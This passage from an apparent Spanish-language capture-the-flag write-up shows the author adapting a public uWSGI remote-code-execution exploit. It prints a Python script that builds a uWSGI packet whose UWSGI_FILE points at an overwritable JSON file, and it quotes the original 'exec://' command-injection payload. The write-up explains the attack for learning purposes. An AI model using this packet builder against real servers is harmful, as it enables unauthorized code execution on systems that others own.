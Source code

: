 [Uwsgi RCE Exploit](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py)

Un saludito a [wofeiwo](https://github.com/wofeiwo) por el lindo exploit que se mando. Gracias amigo!, mandale un 😘 a tu hermana también.

Básicamente el exploit lo que hace es generar un paquetito `uWSGI` a partir del siguiente dic.

{% highlight python %}
var = {
       'SERVER_PROTOCOL': 'HTTP/1.1',
       'REQUEST_METHOD': 'GET',
       'PATH_INFO': path,
       'REQUEST_URI': uri,
       'QUERY_STRING': qs,
       'SERVER_NAME': host,
       'HTTP_HOST': host,
       'UWSGI_FILE': payload,
       'SCRIPT_NAME': target_url
   }
{% endhighlight %}

Algo que me llama la atención es esto `'UWSGI_FILE': payload`, que es donde va la magia para meter un RCE, pero el flaco le manda este valor en `payload`.

`'exec://' + args.command + "; echo test"`

`exec://` el wrapper que nunca esta en ningún server instalado. Vamos a ver para que mierda sirve la variable `UWSGI_FILE`.

A ver la docu! diría Guido.

![image 1](/ctf/assets/images/emoji-letters-10.png)

Bueno eso me gusto, si le paso un file lo carga dinamicamente. Si no mal recuerdo puedo sobrescribir el archivo `/app/application/static/emoji.json`. Si le meto código en python, genero el paquete uWSGi y se lo mando al server debería tener RCE.

Primero vamos a robar algunas funciones del [Uwsgi RCE Exploit](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py) y realizar algunas modificaciones para generar el packet.

`pack_uwsgi.py`
{% highlight python %}

var = {
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'REQUEST_METHOD': 'GET',
        'PATH_INFO': '/',
        'REQUEST_URI': '',
        'QUERY_STRING': '',
        'SERVER_NAME': '127.0.0.1:5000',
        'HTTP_HOST': '127.0.0.1:5000',
        'UWSGI_FILE': '/app/application/static/emoji.json',
        'SCRIPT_NAME': '/pwned'
    }

def sz(x):
    s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
    s = s.decode('hex')
    return s[::-1]


def pack_uwsgi_vars(var):
    pk = b''
    for k, v in var.items() if hasattr(var, 'items') else var:
        pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
    result = b'\x00' + sz(pk) + b'\x00' + pk
    return result

print(pack_uwsgi_vars(var))

{% endhighlight %}